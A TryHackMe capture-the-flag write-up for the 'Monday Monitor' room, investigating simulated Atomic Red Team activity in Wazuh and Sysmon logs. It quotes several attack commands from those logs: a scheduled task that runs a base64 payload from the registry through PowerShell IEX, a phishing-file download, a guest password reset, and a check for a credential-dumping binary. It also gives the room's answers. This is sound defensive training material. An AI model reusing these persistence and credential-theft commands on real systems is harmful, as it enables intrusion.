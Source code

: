 ```yaml
---
title: "TryHackMe: Monday Monitor"
author: Tao-68
categories: [TryHackMe]
tags: [windows, Wazuh, Sysmon]
render_with_liquid: false
media_subpath: /images/thm_monday_monitor/
image:
  path: room_icon.png
---
```


[![Tryhackme Room Link](monday_monitor_img.png){: width="600" height="300" .shadow}](https://tryhackme.com/room/mondaymonitor){: .center }

## Scenario

Swiftspend Finance, the coolest fintech company in town, is on a mission to level up its cyber security game to keep those digital adversaries at bay and ensure their customers stay safe and sound.

Led by the tech-savvy Senior Security Engineer John Sterling, Swiftspend's latest project is about beefing up their endpoint monitoring using Wazuh and Sysmon. They've been running some tests to see how well their cyber guardians can sniff out trouble. And guess what? You're the cyber sleuth they've called in to crack the code!

The tests were run on Apr 29, 2024, between 12:00:00 and 20:00:00. As you dive into the logs, you'll look for any suspicious process shenanigans or weird network connections, you name it! Your mission? Unravel the mysteries within the logs and dish out some epic insights to fine-tune Swiftspend's defences.

Once logged in, navigate to the **Security** events module and use the saved query **`Monday_Monitor`** to access the logs.

## Approach

We head over to the dashboard and view the data present to us. Press the **Floppy Disk** icon to apply the **`Monday_Monitor`** filter. We also need to set the timeline to **Apr 29, 2024, between 12:00:00 and 20:00:00**. 

We filter out the following attributes as columns in the table:  **data.win.eventdata.commandLine, eventdata.parentCommandLine** because these attributes provide critical insights into the exact commands executed by a process and its parent. This helps trace the origin and propagation of potentially malicious activity, such as identifying the initial vector (e.g., a downloaded file execution) and understanding the chain of process creation that led to system compromise.

![Approach](add_column.png)

Note: The questions for this task are not answered in order as the solutions were found by going through logs and noticing the anomalies within those logs along the way. 

#### Question 7: Data was exfiltrated from the host. What was the flag that was part of the data?

After adding the columns into the table, we noticed that there is a flag hidden among the commandLine columns. (If you didn't scroll too fast!)

![Q7](q7.png)

From this log we know that the threat actor achieved his goal at 14:56 PM.

#### Question 5: What password was set for the new user account?

![Q5](q5.png)

The command **C:\Windows\system32\net1 user guest I_AM_M0NIT0R1NG** indicates that the password for the guest user account was changed to I_AM_M0NIT0R1NG. This is based on the syntax of the net user command, which follows the format **`net user <username> <new_password>`**.

#### Question 2: What is the full command run to create a scheduled task?

At time 14:12:43, we noticed a very interesting command line, inclduding the parent command line.

As you have noticed, the approach is done by slowly working backwards and discovering the anomalies as we go along. 

![Q2](q2.png)

We noticed the **schtask.exe** command here which is responsible for scheduling tasks.

The full command is the parent command line here in the snapshot.

Solution: \"cmd.exe\" /c \"reg add HKCU\\SOFTWARE\\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f &amp; schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \\\"\\\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\\\SOFTWARE\\\\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34\"

#### Question 3: What time is the scheduled task meant to run?

The scheduled time is found in the parent command line from question 2, which is **12:34** PM.

#### Question 1: Initial access was established using a downloaded file. What is the file name saved on the host?

At time 13:50:12, we noticed a rather suspicious command line.

![Q1](q1.png)

The command **`$url ='http://localhost/SwiftSpend_Financial_Expenses.xlsm'`** sets a variable $url with the address of the file to download. The file is hosted on localhost, meaning the threat actor might have set up a local web server. The file type .xlsm is an Excel macro-enabled spreadsheet, often used in phishing.

The part **`Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm`** downloads the file from $url and saves it as PhishingAttachment.xlsm in the system's temp directory. However, the task only accept the answer ***`SwiftSpend_Financial_Expenses.xlsm'`** which is the host file instead o the saved file, when the saved file is requested.

#### Question 6: What is the name of the .exe that was used to dump credentials?

I thought this was a easy question and assumed the answer was mimikatz.exe, as this malware is a popular an exploit on Microsoft Windows that extracts passwords stored in memory and software that performs that exploit.

![Q6](q6.png)

After going through a long long time of scrolling and testing other executables found in the logs, I stumbled upon the command **`\"powershell.exe\" &amp; {$mimikatz_path = cmd /c echo C:\\Tools\\AtomicRedTeam\\atomics\\T1003.001\\bin\\x64\\memotech.exe if (Test-Path $mimikatz_path) {exit 0} else {exit 1}}`** 

The command uses PowerShell to verify whether the memotech.exe binary—commonly used in Atomic Red Team simulations of credential dumping (T1003.001)—is present at the specified path. It exits with code 0 if the file exists, or 1 otherwise, making it suitable for scripting and automated test validation.

#### Question 4: What was encoded?

It took quite some time until I finally decided to look for online solution. I was indeed frustrated when the solution was just right infront of my eyes. 

From the parent command line in Question 2, there is a string which appears to be an encoding of base 64. 

```console
reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f
```

This commands adds a string (**REG_SZ**) to the registry at **HKCU\SOFTWARE\ATOMIC-T1053.005**. The value name is **test** with the data **`cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0`**. Using Cyberchef, the base64 decodes to **`ping www.youarevulnerable.thm`** , which is the solution to Question 4. 
